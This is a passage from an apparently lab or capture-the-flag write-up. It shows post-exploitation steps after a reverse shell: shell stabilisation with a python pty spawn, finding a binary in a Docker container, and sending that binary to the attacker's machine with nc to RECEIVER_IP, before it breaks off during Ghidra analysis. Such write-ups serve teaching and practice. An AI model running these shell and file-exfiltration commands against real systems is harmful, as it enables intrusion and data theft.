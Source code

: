 ![](../images/Pasted%20image%2020250328173631.png)

If we check our listener:

![](../images/Pasted%20image%2020250328173643.png)

We got our shell, let's proceed with privilege escalation.


# PRIVILEGE ESCALATION
---

Let's start with stabilizing our shell:


```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](../images/Pasted%20image%2020250328173800.png)

Now we're good to start, we can check this:

![](../images/Pasted%20image%2020250328174443.png)

We got a `/ret` binary, let's run it:


![](../images/Pasted%20image%2020250328174509.png)

Weird, it could mean we are inside of a docker container:

![](../images/Pasted%20image%2020250328174532.png)

![](../images/Pasted%20image%2020250328174544.png)

We are inside of a docker container, let's analyze the binary in our local machine, since `python3` is not enabled in the container we need to go with `nc`:

```
nc -l -p PORT > ret # On our receiver machine
nc -w 3 RECEIVER_IP PORT < ret # On our shell
```

We can go with `ghidra` to analyze the binary:

![](../images/Pasted%20image%2020250328175340.png)

We can see the following, there's a `vuln()` function which goes with this:
